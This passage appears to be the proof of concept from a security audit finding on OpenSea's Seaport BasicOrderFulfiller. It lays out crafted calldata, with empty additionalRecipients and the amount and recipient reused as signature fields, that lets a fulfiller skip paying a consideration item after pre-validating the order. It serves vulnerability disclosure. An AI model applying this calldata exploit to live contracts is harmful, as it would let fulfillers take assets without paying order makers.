 ### Proof of Concept

Alice makes the following offer: a basic order, with two `considerationItem`s. The second item has the following data:

```js
consideration[1] = {
	itemType: ...,
	token: ...,
	identifierOrCriteria: ...,
	startAmount: X,
	endAmount: X,
	recipient: Y,
}
```

The only quantities we need to track are the amounts `X` and recipient `Y`.

When fulfilling the order normally, the fulfiller will spend `X` tokens sending them to `Y`. It's possible however to exploit the previous bug in a way that the fulfiller won't need to make this transfer.

To do this, the fulfiller needs to craft the following calldata:

| calldata pointer |   correct calldata   |   exploit calldata  |
| ---------------: | :------------------: | :-----------------: |
|              ... |          ...         |         ...         |
|            0x204 |   1 (tot original)   |   1 (tot original)  |
|            0x224 |  0x240 (head addRec) | 0x240 (head addRec) |
|            0x244 |   0x2a0 (head sign)  |  0x260 (head sign)  |
|            0x264 |   1 (length addRec)  |  0 (length addRec)  |
|            0x284 |      X (amount)      |   X (length sign)   |
|            0x2a4 |     Y (recipient)    |    Y (sign body)    |
|            0x2c4 |  0x40 (length sign)  |   0x00 (sign body)  |
|            0x2e4 | [correct Alice sign] |         ...         |
|            0x304 | [correct Alice sign] |         ...         |
|                  |                      |                     |

Basically writing `additionalRecipients = []` and making the signature length = `X`, with `Y` being the first 32 bytes.
Of course this signature will be invalid; however it doesn't matter since the exploiter can call `validate` with the correct signature beforehand.

The transaction trace will look like this:

*   the assertion `_assertConsiderationLengthIsNotLessThanOriginalConsiderationLength` passes;
*   the `orderHash` calculated is the correct one, since the for-loop over original consideration items picks up calldata at pointers {0x284, 0x2a4} [(L513)](https://github.com/code-423n4/2022-05-opensea-seaport/blob/main/contracts/lib/BasicOrderFulfiller.sol#L513-L550);
*   the order was already validated beforehand, so the signature isn't read;
*   at the end, during the tokens transfers, only `offer` and `consideration[0]` are transferred, since the code looks at `additionalRecipients` which is empty.
